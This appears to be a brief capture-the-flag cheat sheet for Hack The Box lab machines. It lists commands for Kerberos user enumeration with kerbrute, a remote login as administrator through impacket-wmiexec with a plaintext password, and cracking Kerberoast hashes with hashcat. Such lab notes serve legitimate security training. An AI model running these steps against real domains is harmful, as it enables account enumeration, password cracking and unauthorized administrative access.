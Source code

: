 #### Check to see if found users are valid with kerbrute:
```
./kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users
```


##### Login with kerberos credentials:
```
impacket-wmiexec active.htb/administrator/Ticketmaster1968@10.10.10.100
```
##### crack kerberos hash with hashcat:
```
hashcat -m 13100 hashes.kerberoast rockyou.txt
```
